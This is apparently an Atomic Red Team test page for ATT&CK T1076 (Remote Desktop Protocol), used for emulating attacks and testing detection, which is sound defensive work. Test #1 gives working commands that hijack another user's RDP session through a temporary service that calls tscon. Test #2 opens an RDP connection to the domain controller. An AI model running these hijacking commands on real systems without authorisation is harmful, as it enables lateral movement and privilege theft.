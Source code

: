 # T1076 - Remote Desktop Protocol
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1076)
<blockquote>Remote desktop is a common feature in operating systems. It allows a user to log into an interactive session with a system desktop graphical user interface on a remote system. Microsoft refers to its implementation of the Remote Desktop Protocol (RDP) as Remote Desktop Services (RDS). (Citation: TechNet Remote Desktop Services) There are other implementations and third-party tools that provide graphical access [Remote Services](https://attack.mitre.org/techniques/T1021) similar to RDS.

Adversaries may connect to a remote system over RDP/RDS to expand access if the service is enabled and allows access to accounts with known credentials. Adversaries will likely use Credential Access techniques to acquire credentials to use with RDP. Adversaries may also use RDP in conjunction with the [Accessibility Features](https://attack.mitre.org/techniques/T1015) technique for Persistence. (Citation: Alperovitch Malware)

Adversaries may also perform RDP session hijacking which involves stealing a legitimate user's remote session. Typically, a user is notified when someone else is trying to steal their session and prompted with a question. With System permissions and using Terminal Services Console, <code>c:\windows\system32\tscon.exe [session number to be stolen]</code>, an adversary can hijack a session without the need for credentials or prompts to the user. (Citation: RDP Hijacking Korznikov) This can be done remotely or locally and with active or disconnected sessions. (Citation: RDP Hijacking Medium) It can also lead to [Remote System Discovery](https://attack.mitre.org/techniques/T1018) and Privilege Escalation by stealing a Domain Admin or higher privileged account session. All of this can be done by using native Windows commands, but it has also been added as a feature in RedSnarf. (Citation: Kali Redsnarf)</blockquote>

## Atomic Tests

- [Atomic Test #1 - RDP](#atomic-test-1---rdp)

- [Atomic Test #2 - RDPto-DomainController](#atomic-test-2---rdpto-domaincontroller)


<br/>

## Atomic Test #1 - RDP
RDP hijacking](https://medium.com/@networksecurity/rdp-hijacking-how-to-hijack-rds-and-remoteapp-sessions-transparently-to-move-through-an-da2a1e73a5f6) - how to hijack RDS and RemoteApp sessions transparently to move through an organization

**Supported Platforms:** Windows


#### Run it with `command_prompt`!  Elevation Required (e.g. root or admin) 
```
query user
sc.exe create sesshijack binpath= "cmd.exe /k tscon 1337 /dest:rdp-tcp#55"
net start sesshijack
sc.exe delete sesshijack
```



<br/>
<br/>

## Atomic Test #2 - RDPto-DomainController
Attempt an RDP session via "Connect-RDP" to a system. Default RDPs to (%logonserver%) as the current user

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| logonserver | ComputerName argument default %logonserver% | String | $ENV:logonserver.TrimStart("\")|
| username | Username argument default %USERDOMAIN%\%username% | String | $Env:USERDOMAIN\$ENV:USERNAME|

#### Run it with `powershell`! 
```
Connect-RDP -ComputerName #{logonserver} -User #{username}
```

#### Commands to Check Prerequisites:
```
if((Get-WmiObject -Class Win32_ComputerSystem).PartOfDomain) {0} else {1}
```


<br/>
